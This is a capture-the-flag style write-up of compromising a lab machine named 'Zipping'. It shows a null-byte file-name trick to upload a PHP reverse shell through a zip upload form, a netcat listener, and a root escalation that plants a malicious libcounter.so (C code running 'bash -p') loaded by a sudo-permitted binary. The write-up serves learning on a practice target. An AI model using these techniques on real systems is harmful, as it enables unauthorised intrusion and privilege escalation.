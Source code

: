 # Zipping notes

## Recon
```bash
22/tcp open  ssh
80/tcp open  http

/upload.php
```

## File upload

The file upload accepts a zip file. In that zip file it only accepts 1 pdf.
-> This could be exploited by just renaming files + using null bytes in file names.

Possible solutions:
- rev.php%00.pdf
- rev.phpx00.pdf <- correct

Solution:
```bash
zip mal.zip "rev.phpX.pdf"
```

Now use `hexedit` on the zip to replace the "X" (x58) in "rev.phpX.pdf" with "00" (x00).

Uploading this zip file with the reverse php shell using a nullbyte string to bypass the `.pdf` restriction works.
Make sure to setup a netcat listener to catch the shell.
```bash
nc -lvnp 9001
```

User: rektsu

## Getting root

A quick lookup of what processes have root access gives 1 hit:
```bash
sudo -l

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
```

Ok so the binary file `/usr/bin/stock` can be run as root.

### Analyzing the binary

To see how this binary works, use the `strings` command to get an insight.
```bash
strings /usr/bin/stock
```

Pass: St0ckM4nager

Now to analyze the binary further, use the `strace` command to follow the binary flow. When prompted for a password, provide the found password as argument and get an interesting return:
```bash
openat(AT_FDCWD, "/home/rektsu/.config/libcounter.so", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
```

Bingo, find a way to craft a `libcounter.so` file so that it gives a root shell.

### Malicious file

Ok after researching what exactly a `.so` file is and how it works. We will have to create a C file which then needs to be compiled. Then find a way to execute the `libcounter.so` after the binary is exited. This way we can get a working shell as the root user.

Create the file `exploit.c`:
```C
#include <unistd.h>

void main (void) __attribute__((destructor));

void main (void) {
    system("bash -p");
}
```

Compiling it will create the `libcounter.so` file:
```
gcc -shared -o /home/rektsu/.config/libcounter.so -fPIC exploit.c
```

Running the `stock` binary as root will now execute the newly created `libcounter.so`:
```bash
rektsu@zipping:/home/rektsu$ sudo stock

St0ckM4nager

3

whoami
root
```

Voila.

## Remarks

- Bashed my head against the `.pdf` extension requirement -> only the last "rev.phpX.pdf" needs to be edited.
- First time working with **C**, a lot of looking up and trial&error.
